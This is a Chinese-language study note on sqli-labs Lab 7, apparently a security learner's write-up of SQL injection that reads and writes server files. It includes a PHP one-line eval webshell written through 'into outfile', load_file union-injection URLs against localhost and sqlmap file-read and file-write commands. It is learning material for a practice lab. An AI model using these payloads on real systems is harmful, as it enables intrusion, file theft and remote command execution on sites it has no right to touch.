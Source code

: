 # Lab 7 GET - Dump into outfile - String （导出文件GET字符型注入）

## 以下是博客学习内容

+ 概要：把查询结果导出到文件中，常用语句为 `select "<?php @eval($_POST['giantbranch']);?>" into outfile "XXX\test.php" `， 当然要获取网站在系统中的具体路径（绝对路径） -- 怎么获取？根据系统和数据库猜测（那就是经验咯）；当然不是啦，SQL中有提供函数which有很大可能让我们获取到这个路径，看吧，用lab3的环境 -- 

@@datadir -- 读取数据库的路径

@@basedir -- 安装MYSQL路径

![7_1](.\images\7_1.png)

+ ps：在这里关于导出sql查询结果到文件的时候需要注意设置sql里面的secure-file-priv属性，若报以下错误可以参考`坑.md`

+ [ ] <?php @eval($_POST['giantbranch']);?>" -- 这句话不知道是干啥用的诶？？！？！先空着，学习后面的先

+ 话说这次lab就是为了让我们知道有导出文件这一操作吗 -- 看一波视频先

## 以下是视频学习内容

+ 概要：mysql可以对文件进行读写，但是要权限足够 -- 用户权限最好要有root & secure_file_priy指定目录,以下命令查看secure_file_priv指定目录情况

```mysql
show global variables like "secure_file_priv"
```

完了以后参考`坑.md`即可配置secure_file_priv相关信息

+ 读文件

```mysql
mysql命令行中
select load_file("C:\\Users\\Administrator\\Desktop\\Sqli_Analysis\\sqlread_test.txt") -- 注意要用\\而不是\
```

```
http://localhost/sqli-labs-master/Less-1/?id=0' union select 1,2,load_file("C:\\Users\\Administrator\\Desktop\\Sqli_Analysis\\sqlread_test.txt") --+
```

+ 写文件

'<?php phpinfo();?>'探针信息？

id=-1')) union select 1,,3 into outfile '' --+

+ 写入webshell

  + 一句话木马 -- <?php @eval($_POST['x']);?>
  + @屏蔽错误信息
  + 把输入的'x'都当做命令
  + 使用中国菜刀可以连接，连接了以后就可以为所欲为了，x相当于连接密码

+ sqlmap测试

  + sqlmap -hh 查看详细的帮助信息

    ```
    sqlmap -u "http://localhost/sqli/Less-7/?id=1" --file-read "G:\\flag.txt" -- 读取网站上的文件
    sqlmap -u "" --file-write local_file --file-dest destination_filedir_in_web -- 把本地的某个文件上传到网站上某个位置
    ```

    